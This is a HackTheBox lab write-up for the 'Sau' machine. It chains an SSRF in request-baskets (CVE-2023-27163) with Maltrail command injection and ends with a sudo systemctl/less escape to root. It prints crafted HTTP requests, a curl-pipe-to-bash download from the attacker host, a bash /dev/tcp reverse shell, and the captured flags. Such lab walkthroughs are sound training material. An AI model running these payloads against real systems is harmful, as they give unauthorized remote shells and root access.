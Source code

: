 # Sau - HackTheBox - Writeup
Linux, 20 Base Points, Easy

![info.JPG](images/info.JPG)

## Machine

![‏‏Sau.JPG](images/Sau.JPG)
 
## TL;DR

To solve this machine, we start by using `nmap` to enumerate open services and find ports `22`, and `55555`.

***User***: Discovered `request-baskets` running on port `55555`. Leveraging `CVE-2023-27163`, a new basket was created with forwarding to local port `80` for `Maltrail`. Exploiting unauthenticated OS Command Injection on `Maltrail`, a reverse shell was successfully obtained as user `puma`.

***Root***: After executing `sudo -l`, we discovered that we have the ability to run the `systemctl status` command as `root`. By utilizing the `!sh` command within the `less` pager, we successfully obtained a `root` shell.

![pwn.JPG](images/pwn.JPG)


## Sau Solution

### User

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar9@parrot]─[/hackthebox/Sau]
└──╼ $ nmap -sV -sC -oA nmap/Sau 10.10.11.224
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-19 23:18 IDT
Nmap scan report for 10.10.11.224
Host is up (0.085s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown

```

Observing port `55555`, we see that the following web page is hosted:

![port55555.JPG](images/port55555.JPG)

The `request-baskets` service is hosted on port `55555`, and its source code can be accessed at https://github.com/darklynx/request-baskets.

The `request-basket`s service is affected by a vulnerability `CVE-2023-27163`, which can be exploited using the details available at https://notes.sjtu.edu.cn/s/MUUhEymt7#.

To enumerate the internal ports of the target machine, we can achieve this by creating the following basket:
```http
POST /api/baskets/internal80 HTTP/1.1
Host: 10.10.11.224:55555
Accept: */*
X-Requested-With: XMLHttpRequest
Authorization: null
Authorization: CZjuTpYRvbcuwZN4NDsPg-Y8bTAFnFrO_dVPha_fl3bB
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Referer: http://10.10.11.224:55555/web/baskets
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
Content-Length: 142

{
  "forward_url": "http://127.0.0.1:80/",
  "proxy_response": true,
  "insecure_tls": false,
  "expand_path": true,
  "capacity": 250
}
```

We get the following token as response:
```http
HTTP/1.1 201 Created
Content-Type: application/json; charset=UTF-8
Date: Wed, 19 Jul 2023 20:57:34 GMT
Content-Length: 56
Connection: close

{"token":"Ia3CN2VqTqhEuH09rlRQQYd1XrHfS7fS2yV2QlOnW3Am"}
```

Next, we need to access our basket at http://10.10.11.224:55555/web/internal80. To gain entry, we must insert the token:

![internal80.JPG](images/internal80.JPG)

To trigger the SSRF, we need to browse to http://10.10.11.224:55555/internal80, and upon doing so, we obtain the following output:

![maltrail.JPG](images/maltrail.JPG)

The internal port 80 hosts [Maltrail v0.53](https://github.com/stamparm/maltrail), a malicious traffic detection system.

As documented in https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/, we can exploit command injection using the following method:
```bash
curl 'http://hostname:8338/login' \
  --data 'username=;`id > /tmp/bbq`'
```

We can utilize the SSRF once again, but this time, we need to redirect to http://127.0.0.1:80/login using the following technique:
```http
POST /api/baskets/internal80login HTTP/1.1
Host: 10.10.11.224:55555
Accept: */*
X-Requested-With: XMLHttpRequest
Authorization: null
Authorization: CZjuTpYRvbcuwZN4NDsPg-Y8bTAFnFrO_dVPha_fl3bB
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Referer: http://10.10.11.224:55555/web/baskets
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
Content-Length: 142

{
  "forward_url": "http://127.0.0.1:80/login",
  "proxy_response": true,
  "insecure_tls": false,
  "expand_path": true,
  "capacity": 250
}
```

And now, employing the following payload, we can obtain a reverse shell:
```bash
curl 'http://10.10.11.224:55555/internal80login' \
  --data 'username=;`curl http://10.10.14.14:8000/rev.sh | bash`'
```

The payload for `rev.sh` is as follows: `bash -i >& /dev/tcp/10.10.14.14/4242 0>&1`.

To acquire the reverse shell, we must initiate our web server and listen on port `4242`:
```console
┌─[evyatar9@parrot]─[/hackthebox/Sau]
└──╼ $ nc -lvp 4242
listening on [any] 4242 ...
┌─[evyatar9@parrot]─[/hackthebox/Sau]
└──╼ $ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Executing the provided payload results in a successful acquisition of a reverse shell:
```console
┌─[evyatar9@parrot]─[/hackthebox/Sau]
└──╼ $ nc -lvp 4242
listening on [any] 4242 ...
10.10.11.224: inverse host lookup failed: Unknown host
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.224] 47596
bash: cannot set terminal process group (893): Inappropriate ioctl for device
bash: no job control in this shell
puma@sau:/opt/maltrail$ whoami
whoami
puma
puma@sau:/opt/maltrail$ cat /home/puma/user.txt
cat /home/puma/user.txt
c822b040fa47b8bbb7390c18cffce679
```

And we get the user flag `c822b040fa47b8bbb7390c18cffce679`.

### Root

Upon executing sudo -l, we receive the following output:
```console
puma@sau:~$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service 
```

When running the command `sudo /usr/bin/systemctl status trail.service`, the `less` pager is invoked. By executing `!sh`, we can obtain a shell with `root` privileges:
```console
puma@sau:/opt/maltrail$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
puma@sau:/opt/maltrail$ puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN) 
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Wed 2023-07-26 11:40:02 UTC; 8h ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 892 (python3)
      Tasks: 24 (limit: 4662)
     Memory: 39.1M
     CGroup: /system.slice/trail.service
             ├─  892 /usr/bin/python3 server.py
             ├─  953 /bin/sh -c logger -p auth.info -t "maltrail[892]" "Failed >
             ├─  958 /bin/sh -c logger -p auth.info -t "maltrail[892]" "Failed >
             ├─  962 sh
             ├─  963 python3 -c import socket,os,pty;s=socket.socket(socket.AF_>
             ├─  964 /bin/sh
             ├─  972 python3
             ├─  995 /bin/sh -c logger -p auth.info -t "maltrail[892]" "Failed >
             ├─  996 /bin/sh -c logger -p auth.info -t "maltrail[892]" "Failed >
             ├─  999 sh
             ├─ 1000 python3 -c import socket,os,pty;s=socket.socket(socket.AF_>
             ├─ 1001 /bin/sh
             ├─18062 /bin/sh -c logger -p auth.info -t "maltrail[892]" "Failed >
             ├─18063 /bin/sh -c logger -p auth.info -t "maltrail[892]" "Failed >
lines 1-23!sh
!sh
# whoami
whoami
root
# cat /root/root.txt
cat /root/root.txt
7518627988bdb7f20ab724f2ddc09541
```

And we get the root flag `7518627988bdb7f20ab724f2ddc09541`.
